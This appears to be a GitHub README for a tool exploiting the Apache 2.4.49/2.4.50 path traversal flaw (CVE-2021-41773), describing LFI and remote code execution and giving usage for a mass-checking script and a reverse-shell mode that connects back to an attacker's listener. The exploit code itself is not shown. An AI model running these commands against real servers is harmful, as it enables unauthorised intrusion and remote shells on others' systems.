 # LFI-RCE-Unauthenticated-Apache-2.4.49-2.4.50
<h3>LFI / RCE Unauthenticated - Apache 2.4.49 &amp; 2.4.50</h3>

<h3>Explanation:</h3>
Apache HTTP Server is an open source web server from the Apache Foundation in the United States. The server is fast, reliable, and extensible via a simple API. It was discovered that the fix for CVE-2021-41773 in Apache HTTP Server 2.4.50 is insufficient. An attacker could use a path traversal attack to map URLs to files outside of directories configured by alias-like directives. These requests may succeed if the files outside of these directories are not protected by the usual default configuration of "request all rejects". If CGI scripts are also enabled for these alias paths, this may allow remote code execution. This issue only affects Apache 2.4.49 and Apache 2.4.50, and not earlier versions.

<h3>Usage:</h3>

```
Put the IP address you want to check into the ip.txt file
Run python3 check.py

# FOR REVERSE SHELL
python script.py --lhost 192.168.0.100 --lport 1234
```
<h3>Affected software:</h3>

Apache 2.4.49

Apache 2.4.50
